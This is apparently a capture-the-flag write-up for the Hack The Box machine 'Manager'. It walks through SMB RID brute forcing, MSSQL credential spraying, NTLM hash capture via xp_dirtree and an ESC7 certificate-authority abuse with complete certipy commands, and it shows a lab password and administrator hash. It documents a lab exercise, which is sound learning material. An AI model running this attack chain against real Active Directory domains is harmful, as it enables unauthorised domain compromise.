





# Manager

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.52.107               
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-22 20:53 +08
Nmap scan report for 10.129.52.107
Host is up (0.0069s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49677/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49716/tcp open  unknown
57492/tcp open  unknown
```

Looks like an AD machine. Did a detailed scan as well:

```
$ nmap -p 80,88,135,139,389,445,464,593,636,1433,3268,3269 -sC -sV --min-rate 3000 10.129.52.107 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-22 20:56 +08
Nmap scan report for 10.129.52.107
Host is up (0.0061s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Manager
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-22 14:39:40Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T14:41:08+00:00; +1h43m30s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T14:41:09+00:00; +1h43m30s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-10-22T14:33:38
|_Not valid after:  2053-10-22T14:33:38
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-10-22T14:41:08+00:00; +1h43m30s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T14:41:08+00:00; +1h43m30s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-22T14:41:09+00:00; +1h43m30s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

A few things to note:
* MSSQL is public-facing on port 1433
* The domain name is `manager.htb`, and the DC name is `dc01.manager.htb`, which I added to the `/etc/hosts` file. 

### Web Enum --> Deadend

The web application shows a corporate page:


Running a `gobuster` directory and `wfuzz` subdomain scan nothing of interest. Moving on.

### SMB --> User Brute Force

`smbmap` reveals that null sessions are allowed:

```
$ smbmap -u guest -p '' -H dc01.manager.htb
[+] IP: dc01.manager.htb:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
```

`enum4linux` also shows that SIDs can be enumerated without credentials.

```
$ enum4linux -u 'guest' -p '' -a manager.htb
<TRUNCATED>
[+] Enumerating users using SID S-1-5-21-4078382237-1492182817-2568127209 and logon username 'guest', password ''                                                                         
                                                                                             
S-1-5-21-4078382237-1492182817-2568127209-500 MANAGER\Administrator (Local User)             
S-1-5-21-4078382237-1492182817-2568127209-501 MANAGER\Guest (Local User)
S-1-5-21-4078382237-1492182817-2568127209-502 MANAGER\krbtgt (Local User)
S-1-5-21-4078382237-1492182817-2568127209-512 MANAGER\Domain Admins (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-513 MANAGER\Domain Users (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-514 MANAGER\Domain Guests (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-515 MANAGER\Domain Computers (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-516 MANAGER\Domain Controllers (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-517 MANAGER\Cert Publishers (Local Group)
S-1-5-21-4078382237-1492182817-2568127209-518 MANAGER\Schema Admins (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-519 MANAGER\Enterprise Admins (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-520 MANAGER\Group Policy Creator Owners (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-521 MANAGER\Read-only Domain Controllers (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-522 MANAGER\Cloneable Domain Controllers (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-525 MANAGER\Protected Users (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-526 MANAGER\Key Admins (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-527 MANAGER\Enterprise Key Admins (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-1000 MANAGER\DC01$ (Local User)
```

As such, I tried to at least get a user list using `crackmapexec` and its RID brute force option, similar to the initial access steps for Rebound. 

```
$ crackmapexec smb manager.htb -u 'guest' -p '' --rid-brute 50000
<TRUNCATED>
SMB         manager.htb     445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         manager.htb     445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         manager.htb     445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)                                                                                           
SMB         manager.htb     445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)                                                                         
SMB         manager.htb     445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         manager.htb     445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         manager.htb     445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         manager.htb     445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         manager.htb     445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         manager.htb     445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         manager.htb     445    DC01             1119: MANAGER\Operator (SidTypeUser)
```

### MSSQL Login --> Website Backup

There was one user that stood out obviously. Using `crackmapexec` again, we can try to brute force a username and password combination out for SMB and the MSSQL service. There were no credentials for the SMB service, but it did find one for the MSSQL server. 

```
$ crackmapexec mssql manager.htb -u users -p users 
<TRUNCATED>

MSSQL       manager.htb     1433   DC01             [+] manager.htb\Operator:Operator
```

Afterwards, I logged in using `mssqlclient.py`:

```
$ /opt/impacket/examples/mssqlclient.py 'operator:operator@manager.htb' -dc-ip dc01.manager.htb -windows-auth
Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```

Initially, I tried to enable `xp_cmdshell`, but our current user is unable to do so:

```
SQL> sp_configure 'show advanced options', '1'
[-] ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
SQL> RECONFIGURE
[-] ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
```

However, this does not stop me from using `xp_dirtree` and `responder` to grab a hash for the user.

```
SQL> xp_dirtree '\\10.10.14.19\test'
subdirectory
```



However, this hash cannot be cracked. Since I couldn't find a hash, I can at least enumerate the file system using `xp_dirtree`. I knew there was a website, so I started there at the default file of `C:\inetpub\wwwroot`:

```
SQL> EXEC master.sys.xp_dirtree 'C:\inetpub\wwwroot',0,1;
<TRUNCATED>
website-backup-27-07-23-old.zip                                                 
```

I found this `.zip` file. Within it, there's an `.old-conf.xml` file that contains some credentials:



Using this, I could `evil-winrm` in as the `raven` user.



## Privilege Escalation

### Basic Enumeration --> ESC7

This was an AD machine, so it was unlikely that the creator left behind a Windows / system exploit for the next step. I did the usual enumeration for:

* Basic domain and kerberos enumeration via `PowerView.ps1`.
* ACL Abuse via `bloodhound` collectors.
* Certificate stuff using `Certify.exe`.

The last one found something interesting.

```
*Evil-WinRM* PS C:\Users\Raven> .\certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'

[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=manager-DC01-CA, DC=manager, DC=htb
    Cert Thumbprint               : ACE850A2892B1614526F7F2151EE76E752415023
    Cert Serial                   : 5150CE6EC048749448C7390A52F264BB
    Cert Start Date               : 7/27/2023 3:21:05 AM
    Cert End Date                 : 7/27/2122 3:31:04 AM
    Cert Chain                    : CN=manager-DC01-CA,DC=manager,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None

[+] No Vulnerable Certificates Templates found!
```

Although no vulnerable templates were found, I noticed that the `Raven` user was given `Allow ManageCA` permissions. This is a misconfiguration that allows for the ESC7 attack.



The repository for `certipy` has all the commands needed to execute this attack. Take note that one of the commands is meant to fail in order to grab the private key. 



Take note that these commands have to be entered FAST in order to prevent the machine from resetting halfway through and making the attack fail. Take note that `<NUM>` is to be replaced with the number in the private key file name (if it is called `13.key`, then use 13 in the commands).

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 'dc01.manager.htb' -template SubCA -upn administrator@manager.htb
certipy ca -ca 'manager-DC01-CA' -issue-request <NUM> -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 'dc01.manager.htb' -retrieve <NUM>
```

If done correctly, this will be the result:



Afterwards, I used `certipy auth` to grab the `administrator` user's hash.

```
$ certipy auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.52.107   
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

Afterwards, I could `evil-winrm` in as the admin:



Rooted!